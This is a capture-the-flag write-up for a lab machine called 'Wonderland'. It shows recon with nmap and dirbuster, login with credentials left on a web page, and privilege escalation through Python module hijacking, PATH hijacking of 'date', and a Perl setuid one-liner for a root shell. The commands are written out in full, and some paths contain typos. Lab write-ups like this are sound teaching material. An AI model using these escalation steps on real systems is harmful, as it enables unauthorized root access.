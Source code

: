 # Wonderland - Fall down the rabbit hole and enter wonderland - Medium

## Objectives - Find the flag in user.txt and root.txt

I started by running a basic nmap scan on the target IP address

<p><span style="color:red"><em>nmap -A 10.10.97.29</em></span></p>

### With this scan we found that port 22 (ssh) and 80 (HTTP) are open. My next step was to curl the webpage to see if that would revel any vulnerabilities, it did not. Never fear, the next thing I did was run dirbuster on the webpage. Eventully I run down the web directories to: 

<p><span style="color:red"><em>http://10.10.97.29/r/a/b/b/i/t/</em></p>

Next I inspected the webpage for more information and found what looks to be credentials for alice.

<p><span style="color:red"><em>alice:HowDothTheLittleCrocodileImproveHisShiningTail</em></span></p>

Next Im going to try those credentials to access the SSH server. 

<p><span style="color:red"><em>ssh alice@10.10.97.29</em></span></p>

Im in!! The first thing we see once we log into alices computer is root.txt and a .py file. The Python file is below:


```
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

[... REDACTED ...]

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
By doing:
<p><span style="color:red"><em>sudo -l</em></span></p>
We can see alice may run the folloiwng commands:


```
(rabbit) /usr/bin/python3.6 /hom/alice/walrus_and_thecarpenter.py
```

Next I created a .py file named random so that it would be imported and run the next time walrus_and_the_carpenter.py was run. In this python file I put:

```
import pty;pty.spawn("/bin/bash")
```

Finally the last thing I need to do is run the python file. 

<p><span style="color:red"><em>sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py</em></span></p>

Now that I was rabbit, I can starting looking around to see if there is anything else I can do to try and get root, luckily for me rabbit contained a file called teaParty. When you run strings on the file, this appears:

```
/bin/echo -n 'Probably by ' $$ date --date='next hour' -R
```
 This command grabs the current dtae and time then adds an hour to it. Since date is not called with a specified path, we are able to exploit that by first running the command:
 
<p><span style="color:red"><em>export PATH=/tmp:$PATH</em></span></p>

then 

<p><span style="color:red"><em>echo $PATH</em></span></p>

to ensure we did it correctly. 
Next I created a shell script named date in the /tmp directory and made it executable by using the command:

<p><span style="color:red"><em>chmod  +x /tmp/date</em></span></p>

The code inside of the shell scirpt is just a simple:

<p><span style="color:red"><em>#!/bin/bash /bin/bash</em></span></p>

The only thing left to do know in order to gain access to hatter is to ./teaParty. After gaining access we can we that hatter contains a password.txt file.

```
WhyIsARavenLikeAWritingDesk?
```

Next using LinPEAS, a linux vulnerability scanner, I discovered that hatter has access to /usr/bin/pearl = cap_setuid+ep. Using the GTFObins exploit we gain root access. [GRFOBin](https://gtfobins.github.io/gtfobins/perl/)

<p><span style="color:red"><em>perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
</em></span></p>

After getting root access we can cat the root.txt and usr.txt files and complete the challenge. 
